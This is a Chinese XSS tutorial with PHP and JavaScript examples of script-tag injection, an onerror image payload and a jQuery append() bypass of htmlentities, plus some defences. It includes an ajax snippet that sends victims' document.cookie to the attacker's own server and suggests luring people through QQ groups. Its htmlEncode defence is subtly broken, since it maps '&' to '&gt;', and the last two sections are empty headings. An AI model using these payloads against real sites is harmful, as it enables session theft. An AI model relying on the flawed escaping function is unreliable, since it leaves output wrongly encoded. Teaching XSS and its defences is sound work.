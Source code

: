 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('鹏仔');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范

最简单的解决方法，就是将输出数据进行转义。

比如，上述的XSS攻击的本质，就是因为浏览器遇到了`<script>`标签，然后才会执行其中的脚本。

因此，我们只需要对`<script>`标签进行转义，则浏览器就不会执行其中的恶意脚本。

```php
<?php
    $username="<script>alert('鹏仔');</script>";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码-->
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
    </body>
</html>
```

虽然，成功防止了恶意脚本的执行，但是标签还是会显示出来，影响用户体验。

> 在 Node.js 中，可以用 htmlEncode() 。
```js
function htmlEncode(str) {
    var s = "";
    if (str.length == 0) return "";  
    s = str.replace(/&/g, "&gt;");
    s = s.replace(/</g, "&lt;");
    s = s.replace(/>/g, "&gt;");
    s = s.replace(/ /g, "&nbsp;");
    s = s.replace(/\'/g, "&#39;");
    s = s.replace(/\"/g, "&quot;");
    s = s.replace(/\n/g, "<br>");
    return s;
}
```

## 升级版XSS

### apend的利用

通常情况下，直接给innerHTML添加一段js脚本，是无法执行的。

但是，jQuery中的`append()`方法却可以实现。这是因为，`append()`会把要添加的内容先用`eval()`执行一遍。

而且，由于`append()`底层是通过innerHTML实现的，而innerHTML会把要添加的内容中的unicode码转化为字符实体。二者综合就能产生奇妙的效果了：

```php
<?php
    $username="\u003cscript\u003ealert('ok');";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username); ?>
        </div>
        <div>版权所有：<span id="username_info"></span></div>
        <script>
            $('#username_info').append("<?php echo htmlentities($username); ?>");
        </script>
    </body>
</html>
```

虽然，我们对输出的数据进行了转义，但是转义函数却无法识别经过伪装的`<script>`标签，最终js脚本还是会执行。

### image标签的利用

img标签，在加载图片失败的时候，会调用该元素上的onerror事件。黑客正可以利用这种方式来进行攻击。

```php
<?php
    $username="<script>alert('鹏仔');</script>";
    $imgsrc="\" onerror=\"javascript:alert('鹏仔');\"";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            这个是图片：<img src="<?php echo $imgsrc;?>" />
        </div>
    </body>
</html>
```

此时的源码已经变为--src为空，但是onerror的时候，执行注入代码。

### 组合攻击


## 升级版防范策略












